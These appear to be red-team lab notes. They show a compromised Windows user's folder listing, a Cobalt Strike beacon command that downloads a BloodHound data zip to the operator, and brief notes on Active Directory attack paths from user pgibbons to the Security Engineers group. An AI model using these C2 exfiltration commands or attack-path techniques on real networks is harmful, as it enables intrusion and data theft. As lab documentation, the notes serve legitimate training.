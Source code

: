 ```powershell
 Size       Type    Last Modified         Name
 ----       ----    -------------------   ----
            dir     12/15/2023 06:59:58   AppData 
            dir     12/15/2023 06:59:58   Application Data 
            dir     12/15/2023 07:00:00   Contacts 
            dir     12/15/2023 06:59:58   Cookies 
            dir     12/15/2023 07:00:00   Desktop 
            dir     12/15/2023 07:57:42   Documents 
            dir     12/15/2023 07:00:00   Downloads 
            dir     12/15/2023 07:00:00   Favorites 
            dir     12/15/2023 07:00:00   Links 
            dir     12/15/2023 06:59:58   Local Settings 
            dir     12/15/2023 07:00:00   Music 
            dir     12/15/2023 06:59:58   My Documents 
            dir     12/15/2023 06:59:58   NetHood 
            dir     12/15/2023 07:00:00   Pictures 
            dir     12/15/2023 06:59:58   PrintHood 
            dir     12/15/2023 06:59:58   Recent 
            dir     12/15/2023 07:00:00   Saved Games 
            dir     12/15/2023 07:00:10   Searches 
            dir     12/15/2023 06:59:58   SendTo 
            dir     12/15/2023 06:59:58   Start Menu 
            dir     12/15/2023 06:59:58   Templates 
            dir     12/15/2023 07:00:00   Videos 
 28KB       fil     12/21/2023 13:31:05   20231221133103_BloodHound.zip 
 49KB       fil     12/21/2023 13:31:05   M2Q0ZGRlNjQtMTUwOS00MWEzLWJiMzQtNzlkNmNmM2Q4NGY1.bin 
 3MB        fil     12/18/2023 18:01:27   NTUSER.DAT 
 408KB      fil     12/15/2023 06:59:58   ntuser.dat.LOG1 
 803KB      fil     12/15/2023 06:59:58   ntuser.dat.LOG2 
 64KB       fil     12/18/2023 17:30:09   NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TM.blf 
 512KB      fil     12/18/2023 17:30:09   NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TMContainer00000000000000000001.regtrans-ms 
 512KB      fil     12/18/2023 17:30:09   NTUSER.DAT{a0d1b9b4-af87-11e6-9658-c2e7ef3e8ee3}.TMContainer00000000000000000002.regtrans-ms 
 20B        fil     12/15/2023 06:59:58   ntuser.ini 
```
`downloaded` file and `sync'd`
```powershell
beacon> download 20231221133103_BloodHound.zip
[*] Tasked beacon to download 20231221133103_BloodHound.zip
[+] host called home, sent: 37 bytes
[*] started download of C:\Users\Hax0r\20231221133103_BloodHound.zip (28648 bytes)
[*] download of 20231221133103_BloodHound.zip is complete
```
`drag` & `dropped` Bloodhound.zip into bloodhound client 
now looking into new user `pgibbons` found to see what the user is able to do.
![[Pasted image 20231221152511.png]]172.16.1.26 ?

salvador@corp.local?
PGIBBONS has access to SALVADOR@CORP.LOCAL
![[Pasted image 20231221154252.png]]
Salvador@CORP.local has access to the Security Engineers@corp.local
![[Pasted image 20231228092903.png]]
